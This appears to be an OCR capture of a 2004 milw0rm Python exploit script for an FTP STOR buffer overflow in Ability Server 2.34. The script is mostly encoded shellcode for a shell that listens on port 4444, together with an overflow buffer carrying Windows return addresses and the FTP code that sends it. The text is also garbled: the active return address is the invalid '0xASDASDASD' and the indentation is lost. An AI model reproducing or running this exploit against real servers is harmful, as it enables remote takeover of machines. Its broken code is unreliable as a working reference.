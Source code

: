 ```python
###################################

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFound & coded by muts [at] whitehat.co.il"
print "\nFor Educational Purposes Only!\n" 
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc =  b""
sc += b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
sc += b"\x76\x0e\xc3\x25\x13\xcf\x83\xee\xfc\xe2\xf4\x3f\xcd"
sc += b"\x91\xcf\xc3\x25\x73\x46\x26\x14\xd3\xab\x48\x75\x23"
sc += b"\x44\x91\x29\x98\x9d\xd7\xae\x61\xe7\xcc\x92\x59\xe9"
sc += b"\xf2\xda\xbf\xf3\xa2\x59\x11\xe3\xe3\xe4\xdc\xc2\xc2"
sc += b"\xe2\xf1\x3d\x91\x72\x98\x9d\xd3\xae\x59\xf3\x48\x69"
sc += b"\x02\xb7\x20\x6d\x12\x1e\x92\xae\x4a\xef\xc2\xf6\x98"
sc += b"\x86\xdb\xc6\x29\x86\x48\x11\x98\xce\x15\x14\xec\x63"
sc += b"\x02\xea\x1e\xce\x04\x1d\xf3\xba\x35\x26\x6e\x37\xf8"
sc += b"\x58\x37\xba\x27\x7d\x98\x97\xe7\x24\xc0\xa9\x48\x29"
sc += b"\x58\x44\x9b\x39\x12\x1c\x48\x21\x98\xce\x13\xac\x57"
sc += b"\xeb\xe7\x7e\x48\xae\x9a\x7f\x42\x30\x23\x7a\x4c\x95"
sc += b"\x48\x37\xf8\x42\x9e\x4d\x20\xfd\xc3\x25\x7b\xb8\xb0"
sc += b"\x17\x4c\x9b\xab\x69\x64\xe9\xc4\xda\xc6\x77\x53\x24"
sc += b"\x13\xcf\xea\xe1\x47\x9f\xab\x0c\x93\xa4\xc3\xda\xc6"
sc += b"\x9f\x93\x75\x43\x8f\x93\x65\x43\xa7\x29\x2a\xcc\x2f"
sc += b"\x3c\xf0\x84\xa5\xc6\x4d\x19\xc5\xc9\x2f\x7b\xcd\xc3"
sc += b"\x24\xae\x46\x25\x4f\x03\x99\x94\x4d\x8a\x6a\xb7\x44"
sc += b"\xec\x1a\x46\xe5\x67\xc3\x3c\x6b\x1b\xba\x2f\x4d\xe3"
sc += b"\x7a\x61\x73\xec\x1a\xab\x46\x7e\xab\xc3\xac\xf0\x98"
sc += b"\x94\x72\x22\x39\xa9\x37\x4a\x99\x21\xd8\x75\x08\x87"
sc += b"\x01\x2f\xce\xc2\xa8\x57\xeb\xd3\xe3\x13\x8b\x97\x75"
sc += b"\x45\x99\x95\x63\x45\x81\x95\x73\x40\x99\xab\x5c\xdf"
sc += b"\xf0\x45\xda\xc6\x46\x23\x6b\x45\x89\x3c\x15\x7b\xc7"
sc += b"\x44\x38\x73\x30\x16\x9e\xe3\x7a\x61\x73\x7b\x69\x56"
sc += b"\x98\x8e\x30\x16\x19\x15\xb3\xc9\xa5\xe8\x2f\xb6\x20"
sc += b"\xa8\x88\xd0\x57\x7c\xa5\xc3\x76\xec\x1a"

# Change RET address if need be.

#buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
buffer = '\x41'*970+struct.pack('<L', 0xASDASDASD)+'\x42'*32+sc

try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1') 
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nSploit will hang now because I couldn\'t figure how to use storelines()."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer) 
except:
print "\nDone."

# milw0rm.com [2004-10-21]
```